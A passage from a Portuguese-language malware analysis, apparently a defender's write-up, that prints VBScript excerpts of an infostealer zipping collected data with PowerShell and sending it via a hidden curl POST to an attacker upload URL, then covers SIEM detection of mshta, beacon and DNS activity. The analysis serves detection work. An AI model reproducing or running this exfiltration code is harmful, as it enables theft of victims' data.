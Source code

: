 ```vb {linenos=table linenostart=89}
psCommand = "powershell -NoLogo -NonInteractive -Command " & _
  """Compress-Archive -Path '" & tempCopyDir & "\*' -DestinationPath '" & tempZip & "' -Force"""
shell.Run psCommand, 0, True
```
Usa PowerShell para gerar um `.zip` com todos os dados coletados.

### 3.10. Exfiltra os dados

```vb {linenos=table linenostart=96}
curlCommand = "cmd /c curl -X POST -F ""file=@" & tempZip & """ " & uploadUrl
shell.Run curlCommand, 0, True
```
Envia os dados coletados para: `hxxps://upload[.]cloudflair.org/upload` via `curl -F`.

## 4. Da identificação via SIEM

### 4.1. Identificação da execução inicial do `mshta`

<figure style="text-align: center;">
  <img src="image-6.png" alt="" style="display: block; margin-left: auto; margin-right: auto; max-width: 100%; height: auto;">
  <figcaption><i><strong>Figura 8.</strong> Identificação pelo EventID 1 e 4688.</i></figcaption>
</figure>

### 4.2. Identificação da execução de beacon

<figure style="text-align: center;">
  <img src="image-7.png" alt="" style="display: block; margin-left: auto; margin-right: auto; max-width: 100%; height: auto;">
  <figcaption><i><strong>Figura 9.</strong> Identificação pelo EventID 1 e 4688.</i></figcaption>
</figure>

### 4.3. Identificação da consulta DNS

<figure style="text-align: center;">
  <img src="image-8.png" alt="" style="display: block; margin-left: auto; margin-right: auto; max-width: 100%; height: auto;">
  <figcaption><i><strong>Figura 10.</strong> Identificação pelo EventID 22 do Sysmon.</i></figcaption>
</figure>


[^1]: Em um contexto de malware ou C2 (Command & Control), um `beacon` é uma comunicação feita por uma máquina comprometida para o servidor do atacante, com o objetivo de sinalizar que está ativa ou como um "sinal de vida (Healthy)", para confirmar que a infecção foi bem-sucedida. Além de confirmar a presença do malware, ele pode enviar informações básicas do sistema e aguardar comandos. No nosso caso, o `beacon` é enviado quando o script executa um `curl` para o C2 hxxps://upload[.]cloudflair.org/beacon, funcionando como um "check-in" inicial informando que o malware foi ativado/executado com sucesso.